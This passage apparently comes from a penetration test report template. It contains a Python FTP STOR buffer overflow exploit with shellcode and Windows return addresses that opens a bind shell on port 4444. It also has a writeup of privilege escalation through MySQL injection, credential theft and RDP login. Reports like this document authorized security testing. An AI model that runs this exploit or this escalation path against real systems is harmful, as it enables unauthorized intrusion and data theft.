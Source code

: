 ```python
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
# Change RET address if need be.
buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
try:
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1')
ftp.login('ftp','ftp')
print "\nEvil Buffer sent..."
print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
print "\nCould not Connect to FTP Server."
try:
ftp.transfercmd("STOR " + buffer)
except:
print "\nDone."
```

**Proof Screenshot:**

![ImgPlaceholder](img/placeholder-image-300x225.png)

\newpage

### Privilege Escalation - MySQL Injection

**Vulnerability Explanation:** After establishing a foothold on target, Alfred noticed there were several applications running locally, one of them, a custom web application on port 80 was prone to SQL Injection attacks.
Using Chisel for port forwarding, Alfred was able to access the web application.
When performing the penetration test, Alfred noticed error-based MySQL Injection on the taxid query string parameter.
While enumerating table data, Alfred was able to successfully extract the database root account login and password credentials that were unencrypted that also matched username and password accounts for the administrative user account on the system and Alfredwas able to log in remotely using RDP.
This allowed for a successful breach of the operating system as well as all data contained on the system.
